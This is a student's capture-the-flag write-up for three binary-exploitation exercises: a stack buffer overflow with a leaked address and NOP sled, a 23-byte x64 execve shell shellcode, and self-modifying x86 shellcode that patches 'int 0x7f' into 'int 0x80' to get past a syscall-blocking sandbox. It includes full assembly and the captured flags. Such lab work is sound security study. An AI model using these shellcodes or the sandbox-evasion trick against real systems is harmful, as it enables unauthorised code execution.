


# Fouth Assignment


## BOF 101 - Port: (base-port + 2)

I started by running the binary before analyzing the source code, and I was impressed by observing what happens when writing into the buffer and directly seeing the stack in real-time. 

To solve this challenge, it was crucial to discover the offset of the return address of the executed function in this binary. To achieve this, I used the `cyclic` tool from Pwntools. First, I debugged the program execution using GDB: 

```bash
gdb ./bof101_x86
```

Next, I ran the program with a cyclic pattern of 100 bytes as input:

```bash
(gdb) run < <(cyclic 100)
```

The program crashed with a segmentation fault, and the printed output revealed that the saved return address contained part of the cyclic pattern. Using this information, I identified the offset by running:

```bash
cyclic -l <saved_string>
```

This gave me the exact offset to the return address. 

At this point, the goal was to spawn a shell by overwriting the return address. To do this, I created a script where I generate the shellcode using `shellcraft.sh()`and I assembled it with the `asm()` function.


Initially, my shellcode didn’t work. After some testing, I discovered that the program required the leaked address from its output. Additionally, the exploit didn’t work reliably until I included a NOP sled after the offset to ensure the shellcode was executed correctly. 

The final payload formula to successfully spawn the shell was:

```
OFFSET + leaked_address + 50 NOPs + shellcode
```

By using this approach, I was able to gain shell access and retrieve the flag.





### Smallcode x64 - Port: (*base-port*+3)

The program takes and executes any code input that is less than 25 bytes. To solve this, we need to spawn a shell within these 25 bytes. 

I used the following assembly code, which spawns a shell and has a length of 23 bytes:

```assembly
xor rsi, rsi              ; rsi = 0 (clear the rsi register, this will be NULL, the second argument for execve)
push rsi                   ; push 0 (this is the second argument for execve, which will be NULL, representing environment variables)
mov rdi, 0x68732f2f6e69622f ; rdi = 0x68732f2f6e69622f (this is the string "/bin//sh" in hex format)
push rdi                   ; push the address of "/bin//sh" onto the stack
push rsp                   ; push the address of the stack (the address of "/bin//sh")
pop rdi                    ; pop the address of "/bin//sh" into rdi (this is the first argument for execve)
push 59                    ; push the syscall number 59 (execve syscall number in 64-bit)
pop rax                    ; pop the syscall number into rax
cdq                        ; extend rax to edx (preparing for the syscall, rdx will be used for the parameters)
syscall                    ; invoke the execve syscall (executes /bin/sh with NULL arguments and environment)
```


I can assemble it and pass to the program.


Finally, I obtained the flag:

```
BASC{0pT1miZin9_5h3llc0d3_iS_n0T_s0_H4rD}
``` 


### No Syscall

Premise: I found this challenge very difficult. The sandbox doesn't accept `syscall`, `sysenter`, or `int 0x80`. Initially, I tried to use jumps to other parts of the code, but since NX (No eXecute) is enabled, that didn't work. Then, I attempted to modify `int 0x80`, but after many attempts, the solution came to me: using self-modifying code. Specifically, I modified run time the byte from `0x7f` to `0x80` (just one byte) to bypass the sandbox and trigger the syscall.

Here is my shellcode for the "No Syscall" challenge:

```asm
_start:
    xor eax, eax                
    push eax                     
    push 0x68732f2f              
    push 0x6e69622f              
    mov ebx, esp                 
    push eax                     
    push ebx                    
    mov ecx, esp                 
    mov al, 0x0b                 

    call get_next_instr        

get_next_instr:
    pop esi                      
    inc byte [esi+5]           
    int 0x7f                    
```

The trick involves discovering the address of the next instruction and modifying it dynamically. Here’s how it works:
The `call get_next_instr` instruction pushes the address of the next instruction (which is `pop esi`) onto the stack. When control returns to the `get_next_instr` function, the first thing it does is pop that address into the `esi` register.
After retrieving the address, I increment the byte at `esi + 5`. This corresponds to the byte `0x7f` in the instruction `int 0x7f`. By incrementing it, I change the byte to `0x80`, which turns `int 0x7f` into `int 0x80`, effectively triggering the syscall.

I injected the shell code and i obtained the flag:
```
BASC{s4ndb0X1n9_AiNt_3a5y}
``` 


